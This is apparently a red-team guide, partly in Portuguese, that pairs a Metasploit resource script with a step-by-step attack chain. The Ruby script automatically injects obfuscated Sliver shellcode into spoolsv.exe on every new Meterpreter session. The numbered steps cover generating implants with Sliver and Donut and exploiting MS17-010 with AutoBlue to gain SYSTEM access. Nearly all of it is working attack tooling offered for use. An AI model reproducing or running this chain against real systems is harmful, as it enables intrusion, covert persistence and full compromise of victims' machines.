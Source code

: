 ```rb
<ruby>
already_run = Array.new
run_single("use post/windows/manage/shellcode_inject")
run_single("set SHELLCODE /path/to/shellcode.bin")
while(true)
	framework.sessions.each_pair do |sid,s|
		session = framework.sessions[sid]
		if(session.type == "meterpreter")
			sleep(2)
			unless already_run.include?(s)
				print_line("starting recon commands on session number #{sid}")
				target_proc = session.console.run_single("pgrep spoolsv.exe")
				session.sys.process.get_processes().each do |proc|
					if proc['name'] == "spoolsv.exe"
						target_proc = proc['pid']
					end
				end
				print_line("targeting process: #{target_proc}")
				run_single("set SESSION #{sid}")
				run_single("set PID #{target_proc}")
				run_single("run")
				already_run.push(s)
			end
		end
	end
end
</ruby>
```

- Uma vez dentro da sessão do Metasploit, carregue este resource file /path/to/auto_inject.rc. Abaixo esta um passo-a-passo basico do attack-chain nesse exemplo de process-injection e in-memory execution:

1. Start the Sliver server and mTLS listeners

2. Generate obfuscated Sliver implants using the Sliver server ```generate --format exe --os windows --arch 64 --mtls [fqdn]:[port]```

3. Generate obfuscated Sliver shellcode by running Donut on the Sliver implant ```$ ./donut ./[SLIVER_PAYLOAD.exe] -a 2 -t -b 3 -e 2 -z 2 -f 1 -o SLIVER_SHELLCODE.bin```

4. Generate Metasploit shellcode using the shell_prep.sh script provided https://github.com/3ndG4me/AutoBlue-MS17-010/blob/master/shellcode/shell_prep.sh

5. Start the Metasploit service using the listener_prep.sh script provided https://github.com/3ndG4me/AutoBlue-MS17-010/blob/master/listener_prep.sh

6. Load auto_inject.rc in Metasploit to automatically deploy our second stage
when we get a session

7. Throw an AutoBlue-MS17-010 exploit with Metasploit shellcode

8. Get a Meterpreter session on our victim; Meterpreter is running in lsass.exe
as SYSTEM from the MS17-010 exploit
